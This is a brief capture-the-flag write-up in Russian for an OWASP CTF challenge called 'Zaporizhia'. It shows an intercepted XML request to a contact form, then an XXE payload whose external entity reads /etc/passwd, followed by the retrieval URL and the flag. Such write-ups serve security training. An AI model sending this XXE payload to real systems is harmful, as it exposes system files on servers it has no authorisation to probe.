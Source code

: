 # Zaporizhia (9.owaspctf.gq)

На главной странице скролим вниз до Contact Us. Name=1, Message=2, перехватываем запрос в барпе:

```
PUT /rest/msgs/ HTTP/1.1
Host: 9.owaspctf.gq
User-Agent: -
Content-Type: application/xml
X-Requested-With: XMLHttpRequest
Referer: http://9.owaspctf.gq/contact.html
Content-Length: 83
DNT: 1
Connection: close

<?xml version="1.0" encoding="UTF-8"?><msg><name>1</name><content>2</content></msg>
```

Похоже на XXE. Отправляем:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE msg[
    <!ENTITY name SYSTEM "/etc/passwd">
]>
<msg><name>&name;</name><content>2</content></msg>
```

Респонс: `[+] Message 602400110 saved`

`http://9.owaspctf.gq/rest/msgs/602400110`

`FLAG{Xuman_Like_Machines}`
